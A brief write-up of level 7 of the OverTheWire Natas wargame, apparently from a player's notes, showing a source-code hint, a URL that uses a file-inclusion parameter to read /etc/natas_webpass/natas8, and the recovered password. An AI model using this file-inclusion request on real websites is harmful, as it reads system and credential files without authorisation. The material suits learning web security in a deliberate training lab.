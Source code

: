 in source
```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

so at https://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe


